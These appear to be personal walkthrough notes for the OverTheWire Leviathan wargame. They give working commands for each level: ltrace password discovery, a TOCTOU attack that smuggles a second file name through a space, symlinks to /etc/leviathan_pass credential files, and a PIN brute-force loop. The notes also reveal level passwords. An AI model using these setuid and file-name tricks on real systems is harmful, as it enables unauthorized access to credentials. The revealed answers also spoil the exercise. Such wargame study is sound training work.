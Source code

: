 ### overthewire - leviathan (basic linux hacks)
leviathan levels are generally easy but one of them is pretty hard, leviathan2.

0. hidden files, string search
    * ```ls -a``` to reveal all files in home dir.
    * ```ls .backup```
    * ```vim .backup/bookmarks.html```
        * ```/``` to search (or space)
        * then type ```password```
            * stupidest tries first, works like a charm!
1. ltrace
    * ```ltrace check``` in home dir to trace execution of the setuid
    * found a ```strcmp``` of whatever i enterred against 'sex'
    * enter sex as password (some meme?)
    * ```cat /etc/leviathan_pass/leviathan2``` to get next level's password
    * don't do it in ltrace mode, priviledge won't escalate
2. TOCTOU
    * use ```ltrace``` to observe that this is an time-of-check/time-of-use attack
    * create a temporary directory
        * for some reason this path cannot be too long, so don't use ```mktemp -d```
    * create two files
        * ```echo x>x```
        * ```echo xy>"x y"```
    * link ```y``` to password
        * ```ln -s /etc/leviathan_pass/leviathan3 y```
    * time of check: ```access("x y")```
        * system thinks leviathan2 has the file ```x y``` 
    * time of use: ```sprintf("/bin/cat x y"...)```
        * ```cat``` treats space as delimeter
        * this is executed with leviathan3's priviledge
    * at last, call ```~/printfile "x y"```
        * password gets printed on second line
    * "call.me.by.your.name"
3. double escalation
    * use ```ltrace``` to find password for ```level3```
    * do it twice to become leviathan4
4. binary to char
    * i'm sure there are python or shell code for this thing
    * but i just used cyberchef
    * password's binary form in .trash/bin
5. read ltrace, linking
    * upon creating  ```/tmp/file.log```, ```ltrace ~/leviathan5``` prints out a suspicious line ```setuid(12005)```
        * looks like it's de-escalating the priviledge to leviathan5
        * must escalated priviledge before that
    * upon trying to write things in ```/tmp/file.log``` and then call ```~/leviathan5```, it spits out whatever i wrote there and deletes the file
    * combine these two pieces together, i linked ```/etc/leviathan_pass/leviathan6``` with ```/tmp/file.log``` and then have it spit the password out
    * ```ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log;~/leviathan5```
6. brute force
    * one can use python as well
    * shell script:
        * ```
            for i in {0000..9999}
            do
                echo $i
                ~/leviathan6 $i
            done ```
    * get shell around 7000

